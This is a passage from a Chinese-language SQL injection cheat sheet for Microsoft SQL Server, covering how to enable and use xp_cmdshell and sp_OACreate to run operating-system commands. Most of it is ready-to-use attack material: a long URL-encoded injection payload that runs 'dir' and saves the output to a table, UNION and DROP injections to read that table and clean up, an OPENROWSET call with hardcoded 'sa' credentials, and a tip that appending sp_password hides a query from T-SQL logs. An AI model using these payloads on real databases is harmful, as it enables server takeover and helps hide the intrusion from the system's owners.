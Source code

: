 	SELECT * FROM OPENROWSET('SQLOLEDB', '127.0.0.1';'sa';'p4ssw0rd', 'SET FMTONLY OFF execute master..xp_cmdshell "dir"');


#### 系统命令执行

包含一个名为`xp_cmdshell`的扩展存储过程，可用于执行操作系统命令。

	EXEC master.dbo.xp_cmdshell 'cmd';

从`MSSQL 2005`之后的版本，`xp_cmsshell`默认不再开启，使用以下命令可以手动开启。

	EXEC sp_configure 'show advanced options', 1
	EXEC sp_configure reconfigure
	EXEC sp_configure 'xp_cmdshell', 1
	EXEC sp_configure reconfigure

或者，你可以创建自己的程序来达到同样的结果。


	DECLARE @execmd INT
	EXEC SP_OACREATE 'wscript.shell', @execmd OUTPUT
	EXEC SP_OAMETHOD @execmd, 'run', null, '%systemroot%\system32\cmd.exe /c'

如果这个`MSSQL`版本高于2000，你需要再另外执行以下的命令，才能让上述命令执行成功。

	EXEC sp_configure 'show advanced options', 1
	EXEC sp_configure reconfigure
	EXEC sp_configure 'OLE Automation Procedures', 1
	EXEC sp_configure reconfigure

__例子__

	Checks to see if xp_cmdshell is loaded, if it is, it checks if it is 
	active and then proceeds to run the 'dir' command and inserts the results into TMP_DB:
	
	' IF EXISTS (SELECT 1 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME='TMP_DB') DROP TABLE TMP_DB DECLARE @a varchar(8000) IF EXISTS(SELECT * FROM dbo.sysobjects WHERE id = object_id (N'[dbo].[xp_cmdshell]') AND OBJECTPROPERTY (id, N'IsExtendedProc') = 1) BEGIN CREATE TABLE %23xp_cmdshell (name nvarchar(11), min int, max int, config_value int, run_value int) INSERT %23xp_cmdshell EXEC master..sp_configure 'xp_cmdshell' IF EXISTS (SELECT * FROM %23xp_cmdshell WHERE config_value=1)BEGIN CREATE TABLE %23Data (dir varchar(8000)) INSERT %23Data EXEC master..xp_cmdshell 'dir' SELECT @a='' SELECT @a=Replace(@a%2B'<br></font><font color="black">'%2Bdir,'<dir>','</font><font color="orange">') FROM %23Data WHERE dir>@a DROP TABLE %23Data END ELSE SELECT @a='xp_cmdshell not enabled' DROP TABLE %23xp_cmdshell END ELSE SELECT @a='xp_cmdshell not found' SELECT @a AS tbl INTO TMP_DB--

显示内容

	' UNION SELECT tbl FROM TMP_DB--

删除表

	' DROP TABLE TMP_DB--


#### 隐藏查询

将`sp_password`附加到查询的末尾会将其从T-SQL日志中隐藏，作为安全措施。

__例子__
